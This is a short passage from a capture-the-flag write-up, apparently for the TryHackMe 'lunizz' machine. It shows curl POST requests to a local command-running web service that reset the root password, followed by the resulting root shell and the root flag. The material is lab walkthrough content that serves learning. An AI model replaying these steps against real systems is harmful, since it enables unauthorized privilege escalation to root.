 - again used the writeup here


using `GET` requests does not work here
```
curl 'http://localhost:8080?password=northernlights&cmdtype=lsla'
```

using post now

```
curl -X POST 'http://localhost:8080' -d 'password=northernlights&cmdtype=lsla'
```

this is working

```
curl -X POST 'http://localhost:8080' -d 'password=northernlights&cmdtype=passwd'
```


we get `<br>Password Changed To :northernlights`

- we get root shell when switching to root with above password

```
root@lunizz:/home/mason# id
id
uid=0(root) gid=0(root) groups=0(root)
```


and the flag

```
root@lunizz:~# cat r00t.txt
cat r00t.txt
thm{ad23b9c63602960371b50c7a697265db}
```